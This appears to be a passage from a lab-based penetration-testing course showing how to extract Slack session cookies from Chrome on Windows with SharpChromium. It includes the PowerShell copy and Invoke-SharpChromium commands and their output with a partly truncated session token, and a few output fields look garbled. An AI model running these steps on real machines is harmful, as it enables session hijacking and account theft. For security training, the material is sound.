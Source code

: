 #### **Cookie Extraction from Chromium-based Browsers**

The chromium-based browser also stores its cookies information in an SQLite database. The only difference is that the cookie value is encrypted with [Data Protection API (DPAPI)](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection). `DPAPI` is commonly used to encrypt data using information from the current user account or computer.

For this we can use [`sharpchromium`](https://github.com/djhohnstein/SharpChromium/blob/master/ChromiumCredentialManager.cs#L47)

`SharpChromium` is looking for a file in `%LOCALAPPDATA%\\Google\\Chrome\\User Data\\Default\\Cookies`, but the actual file is located in `%LOCALAPPDATA%\\Google\\Chrome\\User Data\\Default\\Network\\Cookies` with the following command we will copy the file to the location SharpChromium is expecting.

* `PS C:\\htb> copy "$env:LOCALAPPDATA\\Google\\Chrome\\User Data\\Default\\Network\\Cookies" "$env:LOCALAPPDATA\\Google\\Chrome\\User Data\\Default\\Cookies"`

```powershell
PS C:\\htb> Invoke-SharpChromium -Command "cookies slack.com"

[*] Beginning Google Chrome extraction.

--- Chromium Cookie (User: lab_admin) ---
Domain         : slack.com
Cookies (JSON) :
[

<SNIP>

{
    "domain": ".slack.com",
    "expirationDate": 1974643257.67155,
    "hostOnly": false,
    "sion": false,
    "storeId": null,
    "value": "xoxd-5KK4K2RK2ZLs2sISUEBGUTxLO0dRD8y1wr0Mvst%2Bm7Vy24yi..........OrXV83hNeTYg%3D%3D"
},
{
    "domain": ".slack.com",
    "hostOnly": false,
    "h": "1659023172"
},

<SNIP>

]

[*] Finished Google Chrome extraction.

[*] Done.
```

## **Clipboard**
